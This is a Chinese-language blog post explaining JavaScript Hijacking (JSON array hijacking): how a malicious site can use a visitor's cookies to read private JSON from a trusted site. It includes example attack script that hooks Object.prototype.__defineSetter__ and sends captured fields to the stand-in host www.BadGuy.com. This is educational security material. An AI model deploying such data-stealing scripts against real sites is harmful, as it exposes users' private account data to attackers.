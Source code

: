 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      JavaScript Hijacking 				# 标题 
subtitle:   JS 劫持原理   #副标题
date:       2019-07-21 				# 时间
author:     Joel 						# 作者
header-img: img/post-bg-2015.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:	javaScript							#标签
---
```



## JavaScript劫持  


## [深入理解JavaScript Hijacking原理](https://www.cnblogs.com/hyddd/archive/2009/07/02/1515768.html)



        最近在整理关于JavaScript代码安全方面的资料，在查关于JavaScript Hijacking的资料时，发现关于它的中文资料很少，故特意整理一下。

一.JavaScript Hijacking原理

        其实JavaScript Hijacking和CSRF攻击的思想很类似，关于CSRF攻击可以参考我之前写的《[浅谈CSRF攻击方式](https://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)》，关于JavaScript Hijacking的攻击模型，见下图：

![](/img/blog/20190721JSHijacking_files/2009070218500674.jpg)

（1）.你正常访问信任站点（[http://www.Bank.com](http://www.bank.com/)），然后登陆信任站点。

（2）.信任站点通过你的验证，并返回Cookie。

（3）.这时，在你还没有登出信任站点之前，你再打开了一个浏览器的tab页，并访问了一个恶意站点（[www.BadGuy.com](http://www.badguy.com/)）。

（4）.恶意站点向请求用户访问[http://www.Bank.com](http://www.bank.com/)的一个资源。

（5）.浏览器带着之前的Cookie信息，向信任站点[http://www.Bank.com](http://www.bank.com/)发出了一个GET请求。

（6）.信任站点验证的Cookie信息通过，根据请求返回一个JSON数组（如果不清楚JSON，可以参考《[JSON入门指南](https://www.cnblogs.com/hyddd/archive/2009/06/15/1503914.html)》）。

（7）.你的浏览器收到来自[http://www.Bank.com](http://www.bank.com/)的响应后，转发响应中的JSON信息给恶意站点。

至此，恶意站点拿到你关于[http://www.Bank.com](http://www.bank.com/)的信息。

        到这里，你应该有对JavaScript Hijacking有一个大概的概念，它确实和CSRF很相像，唯一不同的是，<b>CSRF是模拟你的身份去发送请求，JavaScript Hijacking是模拟你的身份，窃取你在服务器上的私隐信息</b>。

<b>二.JavaScript Hijacking攻击示范代码：</b>

演示代码之前，首先明确几点：

（1）.恶意站点的攻击目标是明确的（这里目标就是[http://www.Bank.com](http://www.bank.com/)）。

（2）.恶意站点是通过用户给它返回信任网站的JSON数组（为什么是JSON数组？普通的JSON对象不行么？这个下面会提到！），从而获取用户私隐信息的。也就是说所谓的隐私数据，也就是这些JSON数组里面的数据，所以信任站点返回的不是JSON数组的数据或者JSON里面的信息是垃圾信息，那么这个恶意站点是徒劳的。

（3）.恶意站点必须实先知道用户返回的JSON的结构。

（4）.恶意站点能且只能发送GET请求......

（5）.这种攻击是需要浏览器支持的，至于为什么看下面吧。

恩，下面看一下攻击代码吧:>

这个恶意站点[www.BadGuy.com](http://www.badguy.com/)针对[www.Bank.com](http://www.bank.com/)的攻击代码：
<pre>&lt;script type=<span>&quot;text/javascript&quot;</span>&gt;<br>Object.prototype.__defineSetter__(<span>&apos;money&apos;</span>, <span>function</span>(obj) { var objString = &quot;&quot;;  for (fld in this) {objString += fld + &quot;: &quot; + this[fld] + &quot;, &quot;; }  req.open(&quot;GET&quot;, &quot;<a>http://www.BadGuy.com?obj=</a>&quot; +escape(objString),true); } req.send(null); );<br>&lt;/script&gt;<br>&lt;script type=<span>&quot;text/javascript&quot;</span> src=<span>&quot;http://www.Bank.com/UserInfo&quot;</span>&gt;&lt;/script&gt;</pre>

在用户访问恶意网站时：
<pre>&lt;script type=<span>&quot;text/javascript&quot;</span> src=<span>&quot;http://www.Bank.com/UserInfo&quot;</span>&gt;&lt;/script&gt;</pre>

（1）.这段JS代码会要求浏览器发送一个GET请求到[http://www.Bank.com/UserInfo](http://www.bank.com/UserInfo)，于是浏览器按照指示，带上本地的Cookie信息，发送一个http的GET请求。

（2）. [www.Bank.Com](http://www.bank.com/)接受到请求后，确认身份后，响应请求返回了一个JSON数组/JavaScript代码段。

（3）.客户端接受到这段JS脚本后，如果返回的是一个JSON数组，比如：

```
[{"Id":3,"Name":hyddd,"Money":10000}]
```

JSON数组被认为是一段可执行的JavaScript脚本，于是浏览器会解析执行。

如果返回的是一个JSON对象呢？

```
{"Id":3,"Name":hyddd,"Money":10000}
```

呵呵，这个是不会被浏览器执行的，因为浏览器认为：它不是一个JavaScript脚本。

如果它返回的是一个JavaScript脚本的话，恩，这得具体问题具体分析了，不一定能拿到什么数据。

（4）.看下面这段JavaScript脚本：
<pre>&lt;script type=<span>&quot;text/javascript&quot;</span>&gt;<br>Object.prototype.__defineSetter__(<span>&apos;Money&apos;</span>, <span>function</span>(obj) { <span>var</span> objString = <span>&quot;&quot;</span>;  <span>for</span> (fld <span>in</span> <span>this</span>) {objString += fld + <span>&quot;: &quot;</span> + <span>this</span>[fld] + <span>&quot;, &quot;</span>; }  req.open(<span>&quot;GET&quot;</span>, &quot;<a>http:<span>//www.BadGuy.com?obj</span></a>&quot;= +escape(objString),true); } req.send(null); );<br>&lt;/script&gt;<br></pre>

它的作用就是发送受害者的私隐信息到恶意站点的。

这里可能有人不理解，我大概说一下：

        Object.prototype.__defineSetter__，可以看做是JavaScript中的Hook（有人把这个称为[JavaScript函数劫持](http://www.yuanma.org/data/2007/1214/article_2924.htm)，注意JavaScript的函数劫持和JavaScript Hijacking不是同一个概念，JavaScript Hijacking的核心思想和CSRF攻击的核心思想应该是一致的），这里是对Object的Money属性设置了一个Hook，在JavaScript中，由于其他的对象都是派生自Object的，所以这段代码就对所有对象的Money属性都做了一个Hook，当有对象设置它的Money属性时，都会触发上面这段代码的运行。注意的是：__defineSetter__这个在IE系列的浏览器好像是不受支持的（在IE6下试了不行），但FireFox系列的浏览器是肯定支持的。

         后面的var objString=""...这就是发送受害者信息到恶意站点了，这里不说了。

         当浏览器解析（3）中的JSON数组时，会新建一个对象并赋值，这时候就出发了上面这段代码，结果私隐信息就发送到恶意站点了。

